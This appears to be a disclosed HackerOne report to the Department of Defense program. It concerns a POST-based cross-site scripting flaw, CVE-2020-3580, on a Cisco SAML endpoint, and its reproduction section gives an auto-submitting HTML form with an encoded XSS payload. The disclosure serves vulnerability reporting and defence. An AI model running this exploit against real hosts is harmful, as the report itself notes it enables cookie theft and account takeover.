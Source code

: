 # XSS DUE TO CVE-2020-3580

## Report Details
- **Report ID**: 1245055
- **URL**: https://hackerone.com/reports/1245055
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-06-26T11:42:33.777Z
- **Disclosed**: 2021-07-29T19:46:20.316Z

## Reporter
- **Username**: ghimire_veshraj
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hello Team,
During my research, I found the following host to be vulnerable to CVE 2020-3580 which is POST BASED XSS.

Vulnerable URL: https://████/+CSCOE+/saml/sp/acs?tgname=a

## Impact

Attackers can steal cookies and even takeover accounts and perform different malicious activities.

## System Host(s)
███

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
Save following code as xss.html and open in browser:
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://███/+CSCOE+/saml/sp/acs?tgname=a" method="POST">
      <input type="hidden" name="SAMLResponse" value="&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;&apos;XSS&apos;&#41;&gt;" />
      <input type="hidden" name="" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
